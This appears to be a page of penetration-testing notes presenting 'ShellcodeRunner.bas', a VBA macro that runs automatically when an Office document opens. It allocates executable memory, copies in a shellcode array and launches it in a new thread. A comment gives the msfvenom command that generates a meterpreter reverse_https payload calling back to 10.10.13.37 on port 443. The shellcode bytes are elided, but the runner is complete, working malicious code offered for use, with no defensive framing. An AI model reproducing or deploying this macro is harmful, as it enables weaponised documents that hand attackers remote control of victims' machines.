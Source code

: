 # Shellcode Runners

## VBA

[An explanation](https://stackoverflow.com/a/62127904) how to map C types to appropriate VBA types:

{% code title="ShellcodeRunner.bas" %}
```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Sub Document_Open()
  ShellcodeRunner
End Sub

Sub AutoOpen()
  ShellcodeRunner
End Sub

Function ShellcodeRunner()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long

  ' msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f vbapplication
  buf = Array(232, 130, ..., 213)

  ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
  ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter

  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
```
{% endcode %}


